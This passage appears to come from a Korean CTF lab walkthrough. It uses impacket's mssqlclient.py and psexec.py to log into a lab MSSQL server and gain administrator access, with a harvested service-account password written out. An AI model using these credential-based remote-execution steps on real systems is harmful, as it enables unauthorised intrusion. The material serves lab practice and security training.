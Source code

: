 impacket은 네트워크 프로토콜 작업을 위한 파이썬 클래스 모음입니다.
#

![image](https://user-images.githubusercontent.com/61821641/148950112-b2d5f951-4566-49b0-ae91-4ac42e9315b1.png)

위에서 얻은 password(M3g4c0rp123), user id(ARCHETYPE/sql_svc)로 mssql 서버에 접속

```
┌──(root💀kali)-[~/Downloads/git-repo/impacket/examples]
└─# python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.12.10 -windows-auth      
```

![image](https://user-images.githubusercontent.com/61821641/148949361-07103b7d-1c0e-4c03-85b8-4f39e3eb1355.png)

#
`psexec.py`
```
┌──(root💀kali)-[~/Downloads/git-repo/impacket/examples]
└─# python3 psexec.py administrator@10.129.12.10       
```

#
reference

- [github](https://github.com/SecureAuthCorp/impacket)
- [_](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)


